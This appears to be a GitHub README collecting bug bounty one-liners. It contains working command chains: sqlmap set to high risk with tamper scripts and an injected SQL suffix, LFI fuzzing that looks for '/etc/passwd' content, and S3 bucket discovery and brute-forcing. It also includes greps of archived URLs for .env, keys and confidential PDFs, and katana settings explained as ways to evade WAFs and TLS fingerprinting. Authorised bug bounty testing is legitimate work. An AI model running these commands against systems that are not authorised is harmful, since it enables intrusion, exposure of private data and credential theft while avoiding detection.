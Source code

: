 # Bugbounty
## 2024 Oneliners found online

### Check SQL
waybackurls 'URL TARGET'| grep '='| httpx --silent --status-code| awk '{print $1}'| xargs -I{} sqlmap -u {} -v 3 --random-agent --tamper "between,randomcase,space2comment" --level 5 --risk 3 --batch --threads 5 --crawl 2 --suffix=') and 1=1-- -'

### Screenshot
cat hosts | gowitness scan file -f - --write-csv  
***

## 2025 Oneliners found online 

## Find Local File Inclusion
findomain -t example.com -q | waybackurls |gf lfi | qsreplace FUZZ | while read url ; do ffuf -u $url -mr “root:x” -w ~/wordlist/LFI.txt ; done
***
---

## FIND S3

### Google Dorking
(site:*.s3.amazonaws.com OR site:*.s3-external-1.amazonaws.com OR site:*.s3.dualstack.us-east-1.amazonaws.com OR site:*.s3.ap-south-1.amazonaws.com) "target.com"


Tool: dorks_eye
Link: https://github.com/BullsEye0/dorks-eye
- I forked the original. sudo-awk
***

### Using subfinder + httpx

subfinder -d target.com -all -silent | httpx-toolkit -sc -title -td | grep "Amazon S3"
***

### Find using JS files

katana -u https://site.com/ -d 5 -jc | grep '\.js$' | tee alljs.txt
cat alljs.txt | xargs -I {} curl -s {} | grep -oE 'http[s]?://[^"]*\.s3\.amazonaws\.com[^" ]*' | sort -u

***
### Find using java2s3

subfinder -d target.com -all -silent | httpx-toolkit -o file.txt
cat file.txt | grep -oP '(?<=https?:\/\/).*'
python java2s3.py input.txt target.com output.txt
cat output3.txt | grep -E "S3 Buckets: \['[^]]+"
cat output.txt | grep -oP 'https?://[a-zA-Z0-9.-]*s3(\.dualstack)?\.ap-[a-z0-9-]+\.amazonaws\.com/[^\s"<>]+' | sort -u
cat output3.txt | grep -oP '([a-zA-Z0-9.-]+\.s3(\.dualstack)?\.[a-z0-9-]+\.amazonaws\.com)' | sort -u


#### Brute-Forcing S3 Bucket with LazyS3
You can also use this LazyS3 tool — it's basically a brute force tool for AWS S3 buckets using different permutations. you can run the following command by specifying the target domain

***

### Website you can use to find S3 Buckets: 

https://osint.sh/buckets/
grayhatwarefare

Chrome plugin 
https://chromewebstore.google.com/detail/s3bucketlist/anngjobjhcbancaaogmlcffohpmcniki?hl=en

(site:*.s3.amazonaws.com OR site:*.s3-external-1.amazonaws.com OR site:*.s3.dualstack.us-east-1.amazonaws.com OR site:*.s3.ap-south-1.amazonaws.com) "target.com"
***
---

## Get all urls fast

waymore -i hackerone.com -mode U -oU hackerone_urls.txt

cat subs.txt | gau | uro | tee -a all_urls

katana -u target.com | uro | tee -a urls.katana.out

cat targets.txt | gau | sort | uro | tee -a targets.gau

credits to lostsec
***

## Spider the target fast

katana -u http://[TARGET URL]/ -proxy http://[LOCALIP]:[BURPPROXYPORT]/ -hl -jc --no-sandbox -c 1 -p 1 -rd 3 -rl 5 -tlsi
What it Does:

🔸-u: Target URL:
The web application or interface you want to crawl.

🔸-proxy: Burp Proxy: 
Sends all discovered requests through Burp for interception and analysis.

🔸-hl: Headless mode: 
Hooks internal headless browser calls to handle HTTP requests and responses directly within the browser context. 
This provides two key benefits:
◾Full browser-like fingerprinting (TLS/user-agent), avoiding automated detection.
◾Enhanced discovery by analyzing both raw HTTP responses and JavaScript-rendered content.

🔸-jc: JavaScript crawling. 
Extracts endpoints from within JS files and runtime execution, improving endpoint visibility.

🔸--no-sandbox: Sandbox bypass. 
Bypasses browser sandbox restrictions—useful in restricted or containerized environments.

🔸-c 1: Concurrency = 1. 
Runs one request at a time to stay stealthy and mimic legitimate traffic.

🔸-p 1: Parallelism = 1. 
Prevents simultaneous thread execution, further reducing detection risk.

🔸-rd 3: Recursion depth = 3. 
Crawls up to 3 levels deep to uncover nested endpoints without overwhelming the server.

🔸-rl 5: Rate limit = 5 req/sec. 
Keeps request speed low enough to evade rate-based WAF triggers.

🔸-tlsi: TLS fingerprint evasion. 
Emulates real browser TLS behavior to bypass basic fingerprinting-based defenses.

credits to blackhat ethical Hacking

# Look for interesting files using wayback machine
```curl -G "https://web.archive.org/cdx/search/cdx" --data-urlencode "url=*.example.com/*" —-data-urlencode "collapse=urlkey" --data-urlencode "output=text" --data-urlencode "fl=original" > output.txt```

look for interesting file types

```cat out.txt | uro | grep -E '\.xls|\.xml|\.xlsx|\.json|\.pdf|\.sql|\.doc|\.docx|\.pptx|\.txt|\.zip|\.tar\.gz|\.tgz|\.bak|\.7z|\.rar|\.log|\.cache|\.secret|\.db|\.backup|\.yml|\.gz|\.config|\.csv|\.yaml|\.md|\.md5|\.exe|\.dll|\.bin|\.ini|\.bat|\.sh|\.tar|\.deb|\.git|\.env|\.rpm|\.iso|\.img|\.apk|\.msi|\.dmg|\.tmp|\.crt|\.pem|\.key|\.pub|\.asc'```

look for sensitive keyword inside pdf files

```cat output.txt | grep -Ea '\.pdf' | while read -r url; do curl -s "$url" | pdftotext - - | grep -Eaiq '(internal use only|confidential|strictly private|personal & confidential|private|restricted|internal|not for distribution|do not share|proprietary|trade secret|classified|sensitive|bank statement|invoice|salary|contract|agreement|non disclosure|passport|social security|ssn|date of birth|credit card|identity|id number|company confidential|staff only|management only|internal only)' && echo "$url"; done```
